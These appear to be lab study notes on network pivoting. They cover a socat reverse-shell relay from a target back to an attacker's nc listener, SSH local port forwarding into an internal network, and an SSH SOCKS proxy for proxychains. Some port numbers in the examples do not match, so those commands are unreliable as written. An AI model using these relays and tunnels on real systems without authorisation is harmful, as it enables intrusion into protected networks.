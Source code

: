 ### Socat
- Reverse Shell Relay
  - localhost
    - `nc -lvnp 443` this needs started first
  - target
    - `./socat tcp-l:8000 tcp:localip:443 &`
  - 8000 is the port we want the traffic to relay to and 443 is the port were connecting to
 
### SSH
  -  Port Forwarding
    -  If want to connect to a webpage that dont have access to but have access to another comp on its network
      - `ssh -L 800:10.10.10.10:80 user@10.10.10.5 -fN`
    - navigate to `localhost:8000`
      - Example assumes SSH access to 10.10.10.5 and webserver on 10.10.10.10
    - `ssh -L 8000:10.10.10.10 user@10.0.0.12 -fN`
      - above example assumes we have access 10.0.0.12 and there is a webserver running on 10.10.10.10
      - fN backgrounds the shell and indicates just set up connection and not exectute a command
  - Proxy
    - `ssh -D 8000 user@target.thm -fN`
    - Can also use 1337 as a port. It will open up a port 1337 on localhost to act as a proxy and send data through into the protected network. This is used with proxychains.
      - Make sure proxychains config file set up correctly
